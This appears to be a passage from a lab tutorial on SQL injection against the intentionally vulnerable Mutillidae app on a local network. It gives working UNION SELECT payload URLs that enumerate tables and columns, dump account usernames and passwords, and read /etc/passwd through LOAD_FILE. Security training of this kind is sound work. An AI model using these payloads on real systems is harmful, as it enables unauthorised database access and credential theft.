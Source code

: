 - Replace the query in the url with the following one: union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’
```
http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details
```

- The url once executed will retrieve table names from the “owasp 10” database.

<img width="991" height="418" alt="Screenshot 2025-10-24 142248" src="https://github.com/user-attachments/assets/bfbf0e6b-6338-4a94-aeaf-6aa552d6571a" />


## Extracting sensitive data such as passwords
- When the attacker knows table names, he needs to discover what the column names are to extract data.

- In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

- Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

- Here we are trying to extract column names from the “accounts” table.




- The column names of the accounts is displayed below for the following url:
```
http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details
```

- Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

<img width="991" height="418" alt="Screenshot 2025-10-24 142248" src="https://github.com/user-attachments/assets/e1d170f7-2fbf-4698-89e3-f9731e73362e" />


## Ex: (union select 1,username,password,is_admin,5 from accounts).
```
http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details
```

- Reading and writing files on the web-server
- We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

## Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).
```
http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details
```
